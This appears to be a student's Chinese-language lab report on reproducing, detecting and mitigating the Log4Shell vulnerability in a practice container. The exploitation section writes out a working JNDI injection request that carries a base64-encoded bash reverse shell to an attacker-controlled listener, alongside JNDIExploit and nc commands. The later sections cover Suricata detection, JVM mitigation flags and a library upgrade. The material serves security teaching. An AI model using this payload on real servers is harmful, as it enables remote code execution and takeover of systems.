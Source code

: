 # `log4j2` 漏洞复现与缓解修复

## 漏洞攻击

### 检测漏洞存在性

- 使用 `java decompiler` 反编译 `demo.jar` 后可观察到受影响组建的版本号为 `2.14.0` ,确实处于受影响版本范围内，同时可以定位到漏洞代码
 ![alt text](decompile-demo.jar.png)

### 验证漏洞可利用性

 - 选择使用 `PoC` 手动测试
 按照课程使用 `POST` 请求发现报错方法不被支持，改用 `GET` 请求
 ![alt text](test-vulnerability-available.png)
 刷新dnslog记录，成功验证漏洞可利用
 ![alt text](dnslog.png)

### 评估漏洞利用效果

- 工具下载
由于课件中的国内镜像下载地址无法访问，选择先从 `github` 下载再通过 `scp` 传输到虚拟机中
![alt text](tool-download.jpg)
传输完成后在虚拟机中计算校验和，确认无误
![alt text](check-sum.png)

- 【手动】测试 `reverse shell` 的过程
直接在容器中创建反弹 `shell`
![alt text](test-ReverseShell.png)
可以看到这个 `shell` 的输入、输出和错误输出重定向到指定 `IP` 地址（192.168.56.108）的指定端口（7777）,并且成功 `get flag`
![alt text](test-ReverseShell-result.png)

- 开始漏洞利用
    - 在攻击者主机上启动工具
    ```bash
    java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.56.108
    ```
    - 在攻击者主机上提前运行监听程序，等待反弹连接
    ```bash
    nc -l -p 7777
    ```
    - 投放攻击代码:由于 `POST` 方法不被支持，改用 `GET` 方法
    ```bash
     curl "http://192.168.56.107:62564/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.108%3A1389%2FTomcatBypass%2FCommand%2FBase64%2F$(echo -n 'bash -i >& /dev/tcp/192.168.56.108/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')%7D"
    ```
    ![alt text](attack.jpg)
    - 攻击者主机成功 `getshell`
    ![alt text](getshell.jpg)


## 漏洞利用检测

- 启动 `suricata` 检测容器
```bash
 docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4
```
![alt text](run-suricata.png)

- 更新 `suricata 规则`，更新完成测试完规则之后会自动重启服务
```bash
docker exec -it suricata suricata-update -f
```
![alt text](update-suricata-rules.png)

- 监视 `suricata` 日志
```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```

- 重复前述漏洞攻击实验,分析日志输出
![alt text](suricata-log-contents.png)
1. **03/23/2025 - 12:16:00.698506记录**
    - **时间**：2025年3月23日12点16分00秒698506微秒。
    - **规则**：`[1:2022973:1] ET POLICY Possible Kali Linux hostname in DHCP Request Packet`，表示检测到DHCP请求数据包中可能包含Kali Linux的主机名。
    - **分类**：`Potential Corporate Privacy Violation`，即潜在的企业隐私侵犯。
    - **优先级**：1（最高优先级）。
    - **流量信息**：源IP `192.168.56.107`，源端口68（DHCP客户端端口），目的IP `192.168.56.100`，目的端口67（DHCP服务器端口），协议为UDP。这表明在网络中的`192.168.56.107`主机通过DHCP请求获取IP地址时，其主机名可能暗示它是Kali Linux系统。Kali Linux常用于渗透测试等安全工作，在企业网络中未经授权使用可能存在安全风险。
2. **03/23/2025 - 12:17:54.026260及后续多条类似记录**
    - **时间**：从12点17分54秒开始，有多条相近时间的记录。
    - **规则**：`[1:2034818:2] ET POLICY Serialized Java Object returned via LDAPv3 Response`，意味着检测到通过LDAPv3响应返回了序列化的Java对象。
    - **分类**：`Potentially Bad Traffic`，即可能的恶意流量。
    - **优先级**：2（较高优先级）。
    - **流量信息**：源IP `192.168.56.108`，源端口1389（LDAP服务默认端口），目的IP `192.168.56.107`，不同的目的端口（如51870、51878等），协议为TCP。这显示`192.168.56.108`的LDAP服务器向`192.168.56.107`的客户端发送了序列化的Java对象。在许多情况下，序列化的Java对象可被用于利用Java应用程序中的漏洞，比如Log4j漏洞就涉及通过JNDI（Java Naming and Directory Interface ）利用LDAP服务加载恶意的Java对象，进而执行任意代码，所以这类流量被视为可疑。 


## 漏洞缓解以及效果验证

### **1. 停止当前运行的容器**
```bash
docker stop happy_curran
```
![alt text](stop-container.jpg)

### **2. 重新启动容器并添加 JVM 参数并验证参数是否生效**
关闭日志消息解析功能：直接禁用 ${jndi:...} 等恶意字符串的解析。
```bash
docker run -d \
  -p 60443:8080 \  # 保持原端口映射
  -e "JAVA_TOOL_OPTIONS=-Dlog4j2.formatMsgNoLookups=true" \ 
  --name log4j-patched \  # 可选：指定新容器名称
  vulfocus/log4j2-cve-2021-44228:latest
```
![alt text](restart-container.jpg)


### **3. 漏洞缓解验证**
- 重复攻击步骤，攻击机已无法成功 `getshell`
![alt text](attack-again.jpg)
![alt text](getshell-fail.jpg)

- 使用 `PoC` 手动测试验证漏洞可用性
![alt text](check-availability.jpg)


## 漏洞修复

### **方法1：增加参数配置（临时方案）**
由于 `Log4j `提供了一个名为 `JNDI（Java Naming and Directory Interface）` 的功能，允许从远程服务器中动态加载类或资源。 在日志消息或参数中，`Log4j` 支持解析形如 `${}` 的表达式，并允许通过 `JNDI` 加载外部数据。因此，禁用 `JNDI` 查找功能 ，完全禁用 `JNDI` 加载 ， 禁用 `RMI` 和 `LDAP` 加载远程类 ， 禁用 `DNS` 缓存，防止基于 `DNS` 的利用 ， 在配置文件中明确禁用 `JNDI` 相关组件，应该能够暂时修复漏洞
```bash
# 启动一个名为"log4shell"的后台容器，使用漏洞靶场镜像
docker run -d --name log4shell \

  # 将宿主机的22220端口映射到容器8080端口（暴露Web服务）
  -p 22220:8080 \

  # 使用预置的Log4j2漏洞环境镜像（CVE-2021-44228）
  vulfocus/log4j2-rce-2021-12-09:1 \

  # 启动Java应用时添加安全参数：
  java \
    # 禁用Log4j的MessageLookup功能（缓解RCE漏洞）
    -Dlog4j2.formatMsgNoLookups=true \
    
    # 禁止RMI协议加载远程代码库（阻断JNDI注入攻击路径）
    -Dcom.sun.jndi.rmi.object.trustURLCodebase=false \
    
    # 禁止LDAP协议加载远程代码库（双重防护）
    -Dcom.sun.jndi.ldap.object.trustURLCodebase=false \
    
    # 设置DNS正解析缓存时间为0秒（立即刷新解析记录）
    -Dsun.net.inetaddr.ttl=0 \
    
    # 设置DNS负解析缓存时间为0秒（防止缓存攻击）
    -Dsun.net.inetaddr.negative.ttl=0 \

    # 运行漏洞演示应用（模拟存在漏洞的服务）
    -jar /demo/demo.jar
```
![alt text](start-container.png)
**效果验证**
重复攻击步骤，已无法成功 `getshell`
![alt text](result1.png)

### **方法2：更新log4j2到2.17.1版本（长期方案）**
1. 由于容器中缺少更新必需工具，选择将 `demo.jar` 移入本机进行更新
![alt text](delete-old-version-log4j.jpg)
2. 下载新版本 `log4j` 
```bash
 sudo wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.17.1/log4j-core-2.17.1.jar
  sudo wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.17.1/log4j-api-2.17.1.jar
```
![alt text](download-new-version.png)
3. 将替换完成后的 `demo.jar` 重新打包，传回容器
```bash
jar cfm0 ../demo-patched.jar ./META-INF/MANIFEST.MF -C . .
docker cp ./demo-patched.jar hungry_dhawan:/demo
```
![alt text](repack-demo.png)
![alt text](cp-demo-to-container.png)

4. 重启容器内的应用服务
```bash
docker exec -it hungry_dhawan /bin/bash -c "pkill -f 'java -jar /demo/demo.jar'; java -jar /demo/demo.jar &"
```
**出现问题，容器无法重启，多次尝试无果，仍待续作。**
![alt text](fail-to-restart-container.png)















